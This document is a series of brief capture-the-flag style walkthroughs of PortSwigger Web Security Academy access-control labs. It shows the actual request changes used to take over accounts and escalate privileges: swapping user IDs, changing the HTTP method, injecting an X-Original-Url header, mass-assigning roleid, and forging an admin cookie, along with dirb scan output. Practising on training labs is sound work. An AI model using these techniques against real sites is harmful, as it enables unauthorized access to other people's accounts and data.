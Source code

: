 ```
Lab: User ID controlled by request parameter with data leakage in redirect

APPRENTICE

This lab contains an access control vulnerability where sensitive information is leaked in the body of a redirect response.

To solve the lab, obtain the API key for the user carlos and submit it as the solution.

You can log in to your own account using the following credentials: wiener:peter 
```

Replace id = wiener by carlos and see the response in Burp

GG wp ...

---
```
Lab: User ID controlled by request parameter with password disclosure

APPRENTICE

This lab has user account page that contains the current user's existing password, prefilled in a masked input.

To solve the lab, retrieve the administrator's password, then use it to delete the user carlos.

You can log in to your own account using the following credentials: wiener:peter 
```

Replace id = wiener by administrator, change the password and look in burp


---
```
Lab: Insecure direct object references

APPRENTICE

This lab stores user chat logs directly on the server's file system, and retrieves them using static URLs.

Solve the lab by finding the password for the user carlos, and logging into their account. 
```

Download : 1.txt 

---
```
This lab implements access controls based partly on the HTTP method of requests. You can familiarize yourself with the admin panel by logging in using the credentials administrator:admin.

To solve the lab, log in using the credentials wiener:peter and exploit the flawed access controls to promote yourself to become an administrator. 
```
Change methode POST > PUT 
```
PUT /admin-roles
username=wiener&action=upgrade
```
> Congratulations, you solved the lab!

---

```
This lab has an unprotected admin panel. It's located at an unpredictable location, but the location is disclosed somewhere in the application.

Solve the lab by accessing the admin panel, and using it to delete the user carlos. 
```

Open the inspector and check source code :

```
adminPanelTag.setAttribute('href', '/admin-f8nyzl');
adminPanelTag.innerText = 'Admin panel';
```

> Congratulations, you solved the lab!

---
```
This lab has an unprotected admin panel.

Solve the lab by deleting the user carlos. 
```

```
──(kali㉿kali)-[/mnt/portswigger/mfa]
└─$ dirb https://0a5f0064031dfb6382f451c600a9003a.web-security-academy.net 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri May 12 16:50:11 2023
URL_BASE: https://0a5f0064031dfb6382f451c600a9003a.web-security-academy.net/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: https://0a5f0064031dfb6382f451c600a9003a.web-security-academy.net/ ----
+ https://0a5f0064031dfb6382f451c600a9003a.web-security-academy.net/analytics (CODE:200|SIZE:0)                                                           
+ https://0a5f0064031dfb6382f451c600a9003a.web-security-academy.net/favicon.ico (CODE:200|SIZE:15406)                                                     
+ https://0a5f0064031dfb6382f451c600a9003a.web-security-academy.net/filter (CODE:200|SIZE:10402)                                                          
+ https://0a5f0064031dfb6382f451c600a9003a.web-security-academy.net/login (CODE:200|SIZE:2879)                                                            
+ https://0a5f0064031dfb6382f451c600a9003a.web-security-academy.net/Login (CODE:200|SIZE:2879)                                                            
+ https://0a5f0064031dfb6382f451c600a9003a.web-security-academy.net/logout (CODE:302|SIZE:0)                                                              
+ https://0a5f0064031dfb6382f451c600a9003a.web-security-academy.net/my-account (CODE:302|SIZE:0)                                                          
+ https://0a5f0064031dfb6382f451c600a9003a.web-security-academy.net/product (CODE:400|SIZE:30)                                                            
+ https://0a5f0064031dfb6382f451c600a9003a.web-security-academy.net/robots.txt (CODE:200|SIZE:45)                                                         
                                                                               zt                                                                         
-----------------
END_TIME: Fri May 12 16:53:55 2023
DOWNLOADED: 4612 - FOUND: 9
```

Content inside robots.txt : 
```
User-agent: *
Disallow: /administrator-panel
```

> Congratulations, you solved the lab!

---

```
This website has an unauthenticated admin panel at /admin, but a front-end system has been configured to block external access to that path. However, the back-end application is built on a framework that supports the X-Original-URL header.

To solve the lab, access the admin panel and delete the user carlos. 
```

[URL rewrite vulnerability](https://www.acunetix.com/vulnerabilities/web/url-rewrite-vulnerability/)

```
GET / HTTP/2
X-Original-Url: /admin
```
You gain access to the admin page, then delete Carlos ...
```
GET /?username=carlos HTTP/2
Host: 0a0c0091039c87418156200700350087.web-security-academy.net
X-Original-Url: /admin/delete
```

> Congratulations, you solved the lab!

---

```
This lab has a horizontal privilege escalation vulnerability on the user account page, but identifies users with GUIDs.

To solve the lab, find the GUID for carlos, then submit his API key as the solution.

You can log in to your own account using the following credentials: wiener:peter 
```

Carlos GUID is in Carlos blog post

So use this id :)

> Congratulations, you solved the lab!

---

```
This lab has a horizontal privilege escalation vulnerability on the user account page.

To solve the lab, obtain the API key for the user carlos and submit it as the solution.

You can log in to your own account using the following credentials: wiener:peter 
```
Change :
GET /my-account?id=wiener

Into :
GET /my-account?id=carlos

> Congratulations, you solved the lab!

---

```
This lab has an admin panel at /admin. It's only accessible to logged-in users with a roleid of 2.

Solve the lab by accessing the admin panel and using it to delete the user carlos.

You can log in to your own account using the following credentials: wiener:peter 
```

POST /my-account/change-email 
{"email":"test@test.com"}

Response :
{
  "username": "wiener",
  "email": "test@test.com",
  "apikey": "gqLd1cVIhE4aCK95vpgvSjhGzZLEUrs9",
  "roleid": 1
}

Change that for modify the roleid

POST /my-account/change-email 
{
    "email":"test@test.com",
    "roleid":2
}

Response :
{
  "username": "wiener",
  "email": "test@test.com",
  "apikey": "gqLd1cVIhE4aCK95vpgvSjhGzZLEUrs9",
  "roleid": 2
}

GG !

Go to /admin

> Congratulations, you solved the lab!

---

```
This lab has an admin panel at /admin, which identifies administrators using a forgeable cookie.

Solve the lab by accessing the admin panel and using it to delete the user carlos.

You can log in to your own account using the following credentials: wiener:peter 
```

Intercept all the request when you go on /admin
replace admin=false by admin=true

> Congratulations, you solved the lab!


---

